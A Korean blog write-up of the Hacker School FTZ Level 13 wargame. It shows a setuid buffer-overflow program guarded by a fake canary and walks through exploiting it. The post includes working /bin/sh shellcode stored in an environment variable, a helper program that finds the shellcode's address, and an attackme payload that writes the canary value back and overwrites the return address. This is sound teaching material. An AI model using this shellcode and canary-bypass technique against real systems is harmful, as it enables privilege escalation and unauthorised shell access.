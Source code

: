 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 13"
description: "Do you know the canary?"
comments: true
categories: FTZ
---
```


<img data-action="zoom" src='{{ "assets/ftz/level13/1.jpg" | relative_url }}' alt='relative'>  

## 1) level13/have no clue 입력해 로그인  
 
<img data-action="zoom" src='{{ "assets/ftz/level13/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdlib.h>

main(int argc, char *argv[])
{
    long i=0x1234567;
    char buf[1024];

    setreuid( 3094, 3094 );
    if(argc > 1)
       strcpy(buf,argv[1]);

    if(i != 0x1234567) {
       printf(" Warnning: Buffer Overflow !!! \n");
       kill(0,11);
    }
}
```

코드를 살펴보니 유사 카나리 기법이 적용된 것 같습니다.  
buf 배열을 NOP으로만 채우면 i값을 비교하는 if 문에 의해 프로그램이 종료될 것입니다.  

그럼 해당 프로그램의 스택 구조를 살펴보겠습니다.  

## 2) 스택의 구조 살펴보기  

<img data-action="zoom" src='{{ "assets/ftz/level13/3.png" | relative_url }}' alt='relative'>  

tmp 디렉토리로 이동하여 hint 코드를 복사해 프로그램을 하나 만들어줍니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/4.png" | relative_url }}' alt='relative'>  

위 그림의 어셈블리어 코드를 살펴보면 buf 배열의 위치는 $ebp에서 1048 byte 떨어진 위치에 있습니다.  

그리고 $ebp-12 주소에 0x1234567 값이 저장되어 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/5.png" | relative_url }}' alt='relative'>  

스택을 도식화하면 위의 그림과 같습니다.  

## 3) 환경 변수에 쉘코드 저장하기  

환경 변수에 쉘코드를 저장하고 해당 환경 변수의 주소를 구하는 방법은 아래와 같습니다.  
환경 변수에 대한 내용과 쉘코드를 환경 변수에 저장하는 이유를 확인하기 위해 <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">level12</a> 내용을 확인해주세요.  

<img data-action="zoom" src='{{ "assets/ftz/level13/6.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

## 4) BOF 수행하기  

앞선 문제들 같은 경우엔 buf 배열 + dummy + SFP 부분은 모두 NOP으로만 채웠겠지만  
dummy 부분에 BOF를 탐지하는 유사 카나리 기법이 적용되어 있기 때문에 이 부분을 우회하도록 하겠습니다.  

위의 스택의 구조를 도식화한 그림을 보면 buf 배열(1024 byte) + dummy(12 byte) + "0x1234567" + dummy(8 byte) + SFP + RET로 스택이 구성되어 있습니다.  
따라서 "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\[EGG 환경 변수 주소\]"를 입력하면 됩니다.  

위에서 EGG 환경 변수 주소를 구했기 때문에 바로 프로그램에 BOF를 시도하겠습니다.  

``` bash
./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x8d\xfc\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/ftz/level13/7.png" | relative_url }}' alt='relative'>  
